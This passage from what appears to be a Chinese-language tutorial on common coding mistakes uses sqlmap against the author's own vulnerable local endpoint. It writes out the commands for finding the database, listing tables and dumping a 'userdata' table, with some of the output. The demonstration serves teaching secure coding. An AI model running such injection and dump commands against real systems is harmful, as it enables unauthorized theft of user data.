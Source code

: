 ```
```

使用sqlmap来探索这个接口：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test

```

一段时间后，sqlmap给出了如下结果：

<img src="https://static001.geekbang.org/resource/image/2f/59/2f8e8530dd0f76778c45333adfad5259.png" alt="">

可以看到，这个接口的name参数有两种可能的注入方式：一种是报错注入，一种是基于时间的盲注。

接下来，**仅需简单的三步，就可以直接导出整个用户表的内容了**。

第一步，查询当前数据库：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --current-db

```

可以得到当前数据库是common_mistakes：

```
current database: 'common_mistakes'

```

第二步，查询数据库下的表：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --tables -D &quot;common_mistakes&quot;

```

可以看到其中有一个敏感表userdata：

```
Database: common_mistakes
[7 tables]
+--------------------+
| user               |
| common_store       |
| hibernate_sequence |
| m                  |
| news               |
| r                  |
| userdata           |
+--------------------+

```

第三步，查询userdata的数据：

```
python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test -D &quot;common_mistakes&quot; -T &quot;userdata&quot; --dump

```
